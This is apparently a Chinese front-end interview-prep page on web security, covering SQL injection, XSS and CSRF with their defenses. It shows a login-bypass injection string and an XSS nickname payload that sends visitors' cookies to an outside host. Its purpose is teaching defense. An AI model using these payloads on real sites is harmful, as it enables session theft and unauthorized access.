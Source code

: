 ```yaml
---
nav:
  title: 技巧
  path: /skill
  order: 5
toc: content
group:
  title: 💊 面试题库
  order: 2
---
```


# 安全

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```javascript
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

## 在项目里关于前端安全，可以采取以下措施

使用 HTTPS 确保数据在传输过程中的安全性。
验证用户输入，防范 XSS 攻击，使用 CORS 控制跨域资源访问。
更新依赖库和框架，以修补已知的安全漏洞。
避免在前端存储敏感信息，如密码，而依赖后端处理。
定期审查和更新安全策略，以适应新的威胁和最佳实践。

## 常见的攻击手段

### 1. SQL 脚本注入攻击于与防御

#### 概念

> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的 SQL Injection，即 SQL 注入.

#### 场景

语句

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：

> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

#### 处理方式

前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

### 2. XSS 攻击与防御

#### 概念

> 跨站脚本（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。
> XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript，但实际上也可以包括 Java，VBScript，ActiveX，Flash 或者甚至是普通的 HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。

#### 类型

##### 简单分类

1. 反射型 xss

通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索

2. 储存型 xss

通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

##### 复杂分类

1. client 型
2. server 型

#### 处理方式

- 编码

> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

- 过滤

> 有的语句并不完全依赖<>标签，例如 src="javascript:alert(1);"

- 校正

> 这个照理来说应该后端处理，目前没碰到这种场景

```javascript
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```

这怕是要翻水水了...假设是我是主播，我把昵称设置为：

```javascript
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```

这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。

- CSP

```html
在头部加入：

<meta
  http-equiv="Content-Security-Policy"
  content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:"
/>
```

meta：不信任任何 URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用 HTTPS 协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。

> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

### 3. CSRF

> 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

#### 处理方式

- 验证码

在请求的同时，带个 token,或者验证码

- Referer Check

这个可以伪造...但加入更保险

> 注意：如果网站有 XSS 漏洞或者一些跨域漏洞，可能导致 Token 泄露。 在 XSS 攻击下，读取 Token 值，然后再构造出一个合法的请求，可以称为：XSRF。

### 小结

web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
